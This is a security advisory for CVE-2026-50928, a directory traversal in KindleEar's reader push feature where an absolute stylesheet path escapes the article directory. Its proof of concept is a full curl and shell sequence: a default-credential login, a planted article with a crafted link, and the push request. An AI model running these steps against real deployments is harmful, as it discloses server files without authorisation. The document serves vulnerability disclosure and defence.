



# CVE-2026-50928 — Directory Traversal via Absolute-Path CSS Reference in KindleEar Online Reader Push

[CVE ID]
CVE-2026-50928

[PRODUCT]
cdhigh/KindleEar — a self-hosted Python web application that aggregates RSS/web feeds and delivers generated e-books to e-readers; the affected code belongs to its built-in online-reader feature.

[VERSION]
commit `5f51b48bfd9352f9aa05edfa3c7b33c62b839cb7` (upstream HEAD at analysis time)

[PROBLEM TYPE]
Directory Traversal (`CWE-22`) — path-confined file read escape leading to restricted file disclosure

## Description

The authenticated AJAX endpoint `POST /reader/push` (`ReaderPushPost` in `application/view/reader.py`) accepts `type=article` with a `src` path that is expected to point at an article HTML file inside the logged-in user's reader directory (`EBOOK_SAVE_DIR/<username>`); the code does not enforce this beyond the `'..' in src` check (reader.py:323) followed by `os.path.join(userDir, src)` (reader.py:326), so an absolute `src` would likewise discard `userDir`. The demonstrated PoC deliberately uses a safe relative `src` (an article stored in the account's own reader dir) and puts the traversal in an embedded resource path instead. `PushSingleArticle` parses that persisted article with BeautifulSoup and, for every `<link type="text/css" href="...">` in its `<head>`, reads the referenced file with `open(os.path.join(dirName, tag['href']))`. Because `os.path.join` discards the base directory when the second argument is absolute, an absolute `href` such as `/usr/kindleear/application/static/webmail.css` escapes the article directory (and the whole `userDir` tree), and the file's content is embedded into the e-book generated for delivery — the read fragments end up in the EPUB's `stylesheet.css`. The only path guard in the function (`if '..' in src`, reader.py:323) applies solely to the `src` form field, not to resource paths embedded in the article HTML.

Vulnerable code: <https://github.com/cdhigh/KindleEar/blob/5f51b48bfd9352f9aa05edfa3c7b33c62b839cb7/application/view/reader.py#L338-L345> (sink at [L340](https://github.com/cdhigh/KindleEar/blob/5f51b48bfd9352f9aa05edfa3c7b33c62b839cb7/application/view/reader.py#L340))

## Proof of Concept

### Victim setup

Built from the pinned commit (image re-used from the same batch; provenance re-verified by md5 against the checked-out commit for the vulnerable file and all read targets):

```bash
git clone https://github.com/cdhigh/KindleEar.git && cd KindleEar
git checkout 5f51b48bfd9352f9aa05edfa3c7b33c62b839cb7
docker build -t scdd-platform/kindleear:5f51b48b -f docker/Dockerfile .
docker run --rm -d --name scdd_50928 -p 34514:8000 scdd-platform/kindleear:5f51b48b
# wait for http://127.0.0.1:34514/ to answer 200
```



### Attack steps

1. Log in (default first-run admin; `GET /reader?username=admin&password=admin` is the built-in e-ink convenience login) and, solely to make the generated book observable, switch delivery to local save (`POST /settings` with `sm_service=local`, `sm_save_path=/tmp/...`):
```bash
BASE=http://127.0.0.1:34514
curl -sS -c jar -b jar "$BASE/login"
curl -sS -c jar -b jar "$BASE/reader?username=admin&password=admin"
curl -sS -c jar -b jar -X POST "$BASE/adv/calibre" -d 'options={}'
curl -sS -c jar -b jar -X POST "$BASE/account/change/admin" -d 'username=admin&orgpwd=&password1=&password2=&email=admin@example.com&shareKey=x'
curl -sS -c jar -b jar -X POST "$BASE/settings" -d 'kindle_email=a@b.c&delivery_mode=email&sm_service=local&sm_save_path=/tmp/scdd_50928_mail'
```
2. Persist a crafted article in the attacker's own reader dir `/data/ebooks/admin/scdd_50928/index_abs.html` (written here via `docker exec` to stand in for article content the account itself stores; disclosed for honesty). The `<head>` links a stylesheet by ABSOLUTE path, and the body carries an element matching the target file's CSS selectors so the read fragments are re-emitted by the e-book converter:
```bash
docker exec -i scdd_50928 sh -c 'mkdir -p /data/ebooks/admin/scdd_50928 && cat > /data/ebooks/admin/scdd_50928/index_abs.html' <<'HTML'
<!DOCTYPE html><html><head><meta charset="utf-8"/>
<link rel="stylesheet" type="text/css" href="/usr/kindleear/application/static/webmail.css"/>
</head><body><p>scdd_50928 attack article: absolute href escapes the article dir</p><div class="mail-toolbar">toolbar</div></body></html>
HTML
```
3. Trigger the read via the vulnerable endpoint (`src` itself is a safe relative path):
```bash
curl -sS -c jar -b jar -X POST "$BASE/reader/push" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'type=article' \
  --data-urlencode 'src=scdd_50928/index_abs.html' \
  --data-urlencode 'title=scdd_50928_abs' \
  --data-urlencode 'language=en'      # -> {"status":"ok"}
```



### Evidence

- Control (identical article, relative `href="webmail.css"`): EPUB generated, needle `#e0e0e0` (a value unique to `webmail.css` line 2) **not** present — the relative join stays inside the article dir. `src` containing `..` is rejected by the `reader.py:323` guard (`Failed to push: insecurity path expression`), which the absolute `href` bypasses.
- Attack (absolute `href=/usr/kindleear/application/static/webmail.css`): the generated `scdd_50928_abs_*.epub` contains, in `stylesheet.css`, the `.mail-toolbar { background-color: #e0e0e0; ... border-bottom: silver solid 1px; }` rule re-serialized from `webmail.css` — a file that does not exist anywhere under `/data` (`find /data -name webmail.css` → 0), so its content can only originate from the absolute-path read at reader.py:340.
- Second target `/usr/kindleear/application/static/reader.css` likewise discloses (`-webkit-tap-highlight-color: transparent; scrollbar-width: none; ...` in `stylesheet.css`), confirming arbitrary-path selection.
- Boundary (honest negative result): a non-CSS target (`/usr/kindleear/application/templates/base.html`) is opened by the same sink but its HTML text does not survive the CSS-embedding stage (`NEEDLE_NOT_FOUND 'KindleEar is a open source web app'`) — disclosure is limited to content the converter keeps, not a raw file echo.



## Impact

An authenticated KindleEar user (or anyone able to get crafted article HTML persisted under a victim's reader directory — the attack state is a stored article, crossed with a later push request) can make the server read any file readable by the application at an attacker-chosen absolute path when the reader feature (`EBOOK_SAVE_DIR`) is enabled. Disclosure is real but bounded: there is no direct HTTP echo of the file; the leaked bytes reach the attacker only through the generated e-book, and only fragments that the HTML/CSS processing preserves are observable (in this build, CSS rules of the read file that match elements present in the pushed article, landing in the EPUB `stylesheet.css`; binary files fail the UTF-8 text read). The `'..' in src` guard does not mitigate this vector because the traversal lives in the embedded resource `href`, not in `src`. Practical targets include server-side CSS/config-like text files; non-CSS textual content is not preserved by this evidence channel.

## Occurrences

- `application/view/reader.py:L323-L326` — only path check (`'..' in src`) and the `userDir`-confined `src` join (insufficient: does not cover embedded resource paths)
- `application/view/reader.py:L338-L345` — CSS sink: `open(os.path.join(dirName, tag['href']))` at L340, absolute `href` escapes the article directory
- `application/view/reader.py:L355-L362` — sibling sink: `open(os.path.join(dirName, src))` at L358 for `` (same absolute-path escape, binary-capable)

## References

- [CVE-2026-50928](https://www.cve.org/CVERecord?id=CVE-2026-50928)
- [cdhigh/KindleEar](https://github.com/cdhigh/KindleEar)
- Vulnerable function: [`application/view/reader.py` — `PushSingleArticle` @ 5f51b48b](https://github.com/cdhigh/KindleEar/blob/5f51b48bfd9352f9aa05edfa3c7b33c62b839cb7/application/view/reader.py#L322-L345)
